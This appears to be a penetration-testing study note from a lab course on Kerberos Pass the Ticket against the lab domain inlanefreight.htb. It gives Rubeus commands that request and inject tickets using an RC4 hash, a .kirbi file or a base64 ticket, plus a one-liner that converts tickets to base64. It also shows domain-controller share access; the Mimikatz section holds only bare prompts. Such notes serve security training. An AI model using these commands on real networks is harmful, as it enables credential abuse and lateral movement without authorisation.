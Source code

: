 Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

#### <mark class="hltr-grey">Rubeus Pass the Ticket (method 1)</mark>

```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

![[Pasted image 20240912112353.png]]

#### <mark class="hltr-grey">Rubeus Pass the Ticket (method 2)</mark>

Another way is to import the ticket into the current session using the `.kirbi` file from the disk.

Let's use a ticket exported from Mimikatz and import it using Pass the Ticket.

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```


```cmd-session
c:\tools> dir \\DC01.inlanefreight.htb\c$
Directory: \\dc01.inlanefreight.htb\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         6/4/2022  11:17 AM                Program Files
d-----         6/4/2022  11:17 AM                Program Files (x86)

<SNIP>
```

#### <mark class="hltr-grey">Rubeus Pass the Ticket (method 3: Base64)</mark>

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

##### <mark class="hltr-purple">Converting .kirbi to base64</mark>

```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```


#### <mark class="hltr-grey">Mimikatz - Pass the Ticket</mark>


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
